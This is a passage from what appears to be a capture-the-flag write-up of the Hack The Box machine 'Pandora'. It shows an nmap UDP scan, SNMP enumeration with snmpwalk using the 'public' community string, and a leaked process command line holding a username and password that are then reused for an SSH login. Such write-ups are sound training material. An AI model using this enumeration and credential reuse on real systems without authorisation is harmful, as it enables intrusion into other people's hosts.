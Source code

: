 > So many ports **open\|filtered** but only one **open**, this is the snmp port.

Let's look at some information about that port.

```console
❯ sudo nmap -sU -sV -p 161 panda.htb
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-17 14:01 EDT
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.059s latency).
rDNS record for 10.10.11.136: Panda.HTB

PORT STATE SERVICE VERSION
161/udp open snmp SNMPv1 server; net-snmp SNMPv3 server (public)
Service Info: Host: pandora

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.45 seconds
```

> We need to remember `public` because it is the community string.

### SNMP

Investigating a little bit I found a tool in this [website](https://pentesting.one2bla.me/enumeration/service-enumeration) called `snmpwalk`.

```
snmpwalk -c public -v1 panda.htb | tee snmpwalk1
```

Now let's see the `snmpwalk1` file.

```
...
iso.3.6.1.2.1.25.4.2.1.5.876 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
iso.3.6.1.2.1.25.4.2.1.5.880 = STRING: "-f"
...
```
{: file="./snmpwalk1" }

> Ohhh, we see an user and a password here!

## Foothold

### SSH 

The latest credentials seems to work for the ssh, let's try:

```console
❯ ssh daniel@10.10.11.136
daniel@10.10.11.136's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation: https://help.ubuntu.com
 * Management: https://landscape.canonical.com
 * Support: https://ubuntu.com/advantage

...

Last login: Tue May 17 18:27:07 2022 from 10.10.16.21

daniel@pandora:~$
```
